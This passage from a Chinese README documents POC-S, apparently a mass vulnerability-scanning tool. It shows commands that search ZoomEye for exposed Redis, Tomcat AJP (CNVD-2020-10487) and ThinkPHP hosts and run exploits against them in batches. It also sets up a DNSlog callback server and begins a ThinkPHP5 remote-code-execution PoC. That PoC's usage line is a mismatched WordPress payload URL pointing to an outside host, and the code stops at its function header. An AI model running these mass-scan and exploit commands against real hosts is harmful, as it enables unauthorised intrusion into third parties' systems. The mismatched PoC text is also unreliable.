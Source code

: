 2. 搜索引擎的利用
```
pocs --init zoomeye //初始化zoomeye的配置信息
pocs -b redis -t 50 -aZ "port:6379" --limit 50 -o res.txt
pocs -s test2.py -aZ "ThinkPHP"
```

利用ZoomEye批量搜索CNVD-2020-10487 tomcat ajp lfi漏洞

	pip install pocs
	pocs -b apache -aZ "app:tomcat" --limit 50 -t 30 -o ajp.txt

![](test.png)

3. dnslog平台使用

如果你还在纠结于ceye的不稳定，没有时间精力搭建DNSLog平台(需要两个域名，一个公网ip, 且域名还需要能够修改dns服务器)
那么不妨试一试POC-S提供的简易dnslog平台，只需要一个域名和一个公网ip即可搭建，提供api接口进行验证(无界面)

假设dnslog.xxx.cn是你的公网域名，x.x.x.x是公网ip，请确保dnslog.xxx.cn可以正常解析到x.x.x.x, 否则无法正常访问api
在公网(x.x.x.x)运行命令: 
```
pip install pocs
pocs_dnslog -h 0.0.0.0 -p 88(如果不是pip安装的可以直接运行pocs.dnslog.py脚本)
>>> dns domain: dnslog.xxx.cn
>>> api key: rivir
>>>dns ip: x.x.x.x
```

dns log命令，只支持nslookup命令: `nslookup 1234.dnslog.xxx.cn x.x.x.x`  
> 如果你想用ping 1234.dnslog.xxx.cn命令，也可以给xxx.cn域名配置自定义的域名服务器(参考DNSLog的配置)

web log命令: `curl http://dnslog.xxx.cn:88/weblog/poc123`

api接口地址: `http://x.x.x.x:88/api/?token={token}&type={dns}&filter=1234.dnslog.xxx.cn`
参数:
    - token 必填, 搭建dnslog时输入的api_key
    - type 必填，可选值有dns/web
    - filter 选填，过滤出记录，完全匹配
## POC
pocs 提供更加灵活的插件分类方式，目前收集到的总结有四类POC: Fuzz POC, OWASP POC, Vuln POC, Tool POC.  POC这块会尽量收集一些github上面已有的POC, 但不会太多，还是需要个人自己去收集整理。f  

POC编写会尽可能规范，遵循POC-T的编写风格。eg如下
```
#!/usr/bin/env python		
#coding:utf-8

"""
ThinkPHP5 <=5.0.22/<=5.1.29 远程代码执行漏洞

Desc
    2018年12月10日中午，thinkphp官方公众号发布了一个更新通知，包含了一个5.x系列所有版本存在被getshell的高风险漏洞。
    由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，
    受影响的版本包括5.0.23和5.1.31之前的所有版本，推荐尽快更新到最新版本。
Version
	ThinkPHP5.0 版本 <= 5.0.22 ThinkPHP5.1 版本 <= 5.1.29
Usage:
	1. python POC-S.py -s 
	2. POC: /wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://lj.s7star.cn/info.txt
Referer
	https://www.seebug.org/vuldb/ssvid-9771
"""

import requests

def poc(url):
```